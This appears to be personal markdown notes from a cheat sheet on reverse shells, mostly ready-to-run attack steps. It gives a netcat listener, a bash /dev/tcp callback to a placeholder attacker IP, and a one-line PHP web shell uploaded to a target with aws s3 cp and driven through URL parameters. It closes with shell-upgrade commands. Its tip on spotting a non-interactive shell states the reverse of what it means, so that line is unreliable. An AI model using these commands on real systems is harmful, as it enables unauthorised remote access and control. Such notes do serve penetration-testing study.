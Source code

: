 # Description
This file lists everything I know about reverse shells and how to use them.

# Create a reverse shell
#### Description
How to create a reverse shell through bash/Linux terminal commands
### What are reverse shells used for?
Reverse shells are often used for gaining remote access to a system. Reverse shells require a listener on your attacking machine, and then you need to execute a command on the target machine that connects back to your listener, granting you access to the target machine's shell.
### How to create a reverse shell using ```bash```
1. ```nc -lvnp 4444```: use ```netcat``` to create a listener on port ```4444```
    a. Other port numbers can be used as well, select the number that works for you 
2. ```bash -i >& /dev/tcp/<attacker_ip>/4444 0>&1```: use ```bash``` to start an interactive shell
### How to create a reverse shell using ```aws``` and ```php```
1. ```nano shell.php```
        - Use the code editor to write a piece of code in PHP, such as: ```<? php system($_GET['cmd']); ?>```
2. ```cat shell.php```: check for ```shell.php```
3. ```aws s3 cp --endpoint-url=http://<target_url> shell.php s3://<target_url_w/o_extensions>```: upload ```shell.php``` to target
4. go to web browser, enter URL ```http://<target_url>/shell.php?cmd=ls```: execute ```ls``` command in web browser
        - You should now have access to the target website and can execute ```bash``` commands through the URL.
        - Replace ```ls``` with any command (keeping in mind spaces are "```+```" in URL encoding) to execute.


# Upgrade your shell
#### Description
How to upgrade a non-interactive shell (reverse shell) to a fully interactive one
### How do I know if I'm in a non-interactive shell?
You're probably in an interactive shell if you've tried to execute a MySQL prompt and the program froze.
### How to upgrade your shell
1. ```python3 -c 'import pty; pty.spawn("/bin/bash")'```
2. ```stty raw -echo; fg```
3. ```script /dev/null -c bash```
